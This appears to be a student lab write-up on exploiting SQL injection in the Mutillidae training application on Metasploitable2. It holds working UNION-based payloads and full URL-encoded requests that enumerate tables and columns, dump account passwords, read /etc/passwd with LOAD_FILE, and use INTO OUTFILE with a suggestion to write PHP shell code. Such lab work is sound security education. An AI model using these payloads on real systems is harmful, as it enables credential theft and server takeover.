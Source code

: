 Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=vino1234&user-info-php-submit-button=View+Account+Details
![Screenshot 2024-04-30 115954](https://github.com/Vinothini1711/sqlinjection/assets/144300204/775331d9-f935-436a-87e1-6deb568bc918)


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
The column names of the accounts is displayed below for the following url:
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=vino1234&user-info-php-submit-button=View+Account+Details 


![Screenshot 2024-04-30 120953](https://github.com/Vinothini1711/sqlinjection/assets/144300204/0dec79c7-4b40-4a9d-80d0-3cd6efae30d4)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=vino1234&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-30 121356](https://github.com/Vinothini1711/sqlinjection/assets/144300204/682e6024-f183-4d1f-8599-64d9e9a655d2)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=vino1234&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-30 121539](https://github.com/Vinothini1711/sqlinjection/assets/144300204/3eb6d01b-524b-4d48-acc5-04ad0356d31b)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
